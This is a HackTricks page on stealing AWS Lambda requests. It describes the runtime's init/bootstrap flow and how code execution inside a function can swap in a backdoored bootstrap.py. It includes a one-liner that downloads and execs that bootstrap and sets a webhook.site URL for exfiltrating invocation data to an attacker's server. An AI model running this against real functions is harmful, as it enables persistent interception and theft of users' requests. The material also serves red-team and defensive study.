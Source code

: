 # AWS - Steal Lambda Requests

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** is a process outside the container that **send** **invocations** to the **init** process.
2. The init process listens on port **9001** exposing some interesting endpoints:
   * **`/2018-06-01/runtime/invocation/next`** – get the next invocation event
   * **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – return the handler response for the invoke
   * **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – return an execution error
3. **bootstrap.py** has a loop getting invocations from the init process and calls the users code to handle them (**`/next`**).
4. Finally, **bootstrap.py** sends to init the **response**

Note that bootstrap loads the user code as a module, so any code execution performed by the users code is actually happening in this process.

## Stealing Lambda Requests

The goal of this attack is to make the users code execute a malicious **`bootstrap.py`** process inside the **`bootstrap.py`** process that handle the vulnerable request. This way, the **malicious bootstrap** process will start **talking with the init process** to handle the requests while the **legit** bootstrap is **trapped** running the malicious one, so it won't ask for requests to the init process.&#x20;

This is a simple task to achieve as the code of the user is being executed by the legit **`bootstrap.py`** process. So the attacker could:

* **Send a fake result of the current invocation to the init process**, so init thinks the bootstrap process is waiting for more invocations.
  * A request must be sent to **`/${invoke-id}/response`**&#x20;
  * The invoke-id can be obtained from the stack of the legit **`bootstrap.py`** process using the [**inspect**](https://docs.python.org/3/library/inspect.html) python module (as [proposed here](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) or just requesting it again to **`/2018-06-01/runtime/invocation/next`** (as [proposed here](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Execute a malicious **`boostrap.py`** which will handle the next invocations
  * For stealthiness purposes it's possible to send the lambda invocations parameters to an attackers controlled C2 and then handle the requests as usual.
  * For this attack, it's enough to get the original code of **`bootstrap.py`** from the system or [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), add the malicious code and run it from the current lambda invocation.

### Attack Steps

1. Find a **RCE** vulnerability.
2. Generate a **malicious** **bootstrap** (e.g. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Execute** the malicious bootstrap.

You can easily perform these actions running:

```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```

For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
